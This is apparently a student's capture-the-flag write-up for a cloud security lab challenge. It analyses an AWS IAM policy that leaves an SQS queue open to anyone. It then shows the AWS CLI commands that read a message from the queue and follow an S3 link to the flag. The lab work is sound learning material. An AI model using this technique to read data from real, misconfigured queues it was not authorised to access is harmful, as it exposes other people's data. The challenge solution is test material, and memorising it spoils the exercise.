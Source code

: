 # copy the contents of sample.md to start
# Challenge number : 2

## Challenge Statement:
Google Analytics:
We created our own analytics system specifically for this challenge. We think it's so good that we even used it on this page. What could go wrong?

Join our queue and get the secret flag. 

## IAM Policy
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}

### write a short analysis about the IAM policy here
From the above policy, We can see that any body can send and receive sqs message  

* What do I have access to?
	Any user can use the sqs queue
* What don't I have access to?
	N/A
* What do I find interesting?
SQS queue is open to public for sending and receiving message


## Solution

We can send and receive a message using sqs queue :

aws sqs send-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --message-body "Lab 2"

aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2

The message contains the following:

{
    "Messages": [
        {
            "MessageId": "a69f4e6d-7ccd-4a5e-8cbc-b8ef26a92f8a",
            "ReceiptHandle": "AQEBsL3k+idLUm0ep9MTbeETVClJnUg09e96hZRD4adx7sNK3e1lVMY/CrtdBwhKiae+EOSls78lj9CcuqdgZYuullWn1i0R6DICZAgc6rB+3IIuVdVty1/SCdVi5Z2F+XDCZbZjpmAPcCMx5OfjNIPZv6TZg9
U8CxFdY/IDiZSz6mDhQlG5RnCjlzK1e4wFNuxU5tpUV9uJVnU8zJTwB2SBZNnVTtU2NPWM1tJvtxQfg/SxLzlrBTN44sXpNDkFnkM+DYBmX3cr+Sb6OIKKr7ViYuFXLXZjdiM7sldwb7EnxYBRtuIVcITOb9/5kmacVr3yrebmgTaaGnwVjudA6qRpak
FGI/hnOKSsfagptzcLbuYMv6tfwSWs0MurC/Vc2W36Og3czSnB/X9jzOat0ELwz4uV+MI124WRoApKF++ZkMw=",
            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd",
            "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\", \"User-Agent\": \"Lynx/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714\",
 \"IsAdmin\": true}"
        }
    ]
}

Then if we curl https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html
then we will get the content of the html file which is the flag in this challenge


## Reflection
* What was your approach?
	Sending and receiving the message
* What was the biggest challenge?
   Need to under the SQS service in AWS
* How did you overcome the challenges?
	I have some SQS knowledge from previous semester
* What led to the break through?
	The message contains an url which may contain the flag
* On the blue side, how can the learning be used to properly defend the important assets? 
	Learning should focus on identifying the assets, security controls and best practices etc.

